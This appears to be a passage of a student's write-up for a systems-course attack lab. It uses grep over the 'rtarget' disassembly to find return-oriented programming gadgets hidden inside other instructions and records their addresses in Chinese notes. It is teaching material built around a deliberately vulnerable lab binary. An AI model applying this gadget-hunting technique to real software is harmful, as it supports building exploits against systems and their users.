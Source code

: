 

```shell
2020012363@hp:~$ grep "89 d1" rtarget.s
  400e82:       49 89 d1                mov    %rdx,%r9
  4017d5:       89 d1                   mov    %edx,%ecx
  401a59:       8d 87 89 d1 20 d2       lea    -0x2ddf2e77(%rdi),%eax
  401a8a:       b8 89 d1 84 d2          mov    $0xd284d189,%eax
  401a96:       c7 07 c3 89 d1 92       movl   $0x92d189c3,(%rdi)
  401b02:       8d 87 89 d1 18 c0       lea    -0x3fe72e77(%rdi),%eax
  -----------------------------------------------------------------------------
0000000000401a96 <setval_255>:
  401a96:	c7 07 c3 89 d1 92    	movl   $0x92d189c3,(%rdi)
  401a9c:	c3                   	retq   
  可见gadget5的地址为0x401a99
```



```shell
2020012363@hp:~$ grep "89 ce" rtarget.s
  401a52:       c7 07 89 ce 48 d2       movl   $0xd248ce89,(%rdi)
  401a60:       8d 87 89 ce 60 c9       lea    -0x369f3177(%rdi),%eax
  401aa4:       8d 87 89 ce 84 c0       lea    -0x3f7b3177(%rdi),%eax
  401ad4:       8d 87 46 6a 89 ce       lea    -0x317695ba(%rdi),%eax
  401b09:       b8 89 ce 28 c0          mov    $0xc028ce89,%eax
  4023de:       48 89 ce                mov    %rcx,%rsi
  4024ef:       4d 89 ce                mov    %r9,%r14
   -----------------------------------------------------------------------------
0000000000401ad4 <addval_180>:
  401ad4:	8d 87 46 6a 89 ce    	lea    -0x317695ba(%rdi),%eax
  401ada:	c3                   	retq 
  可见gadget6的地址为0x401ad8
```



```shell
2020012363@hp:~$ grep "lea (%rdi,%rsi,1),%rax" rtarget.s
2020012363@hp:~$ grep "(%rdi,%rsi,1),%rax" rtarget.s
  401a38:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  -----------------------------------------------------------------------------
0000000000401a38 <add_xy>:
  401a38:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  401a3c:	c3                   	retq   
  可见gadget0的地址为0x401a38
```



```shell
2020012363@hp:~$ grep "48 89 c7" rtarget.s
  401a11:       c7 07 48 89 c7 94       movl   $0x94c78948,(%rdi)
  401a18:       b8 48 89 c7 c3          mov    $0xc3c78948,%eax
  401a1e:       b8 48 89 c7 90          mov    $0x90c78948,%eax
  4021b4:       48 89 c7                mov    %rax,%rdi
  -----------------------------------------------------------------------------
0000000000401a18 <getval_449>:
  401a18:	b8 48 89 c7 c3       	mov    $0xc3c78948,%eax
  401a1d:	c3                   	retq   
  可见gadget7的地址为0x401a19
```
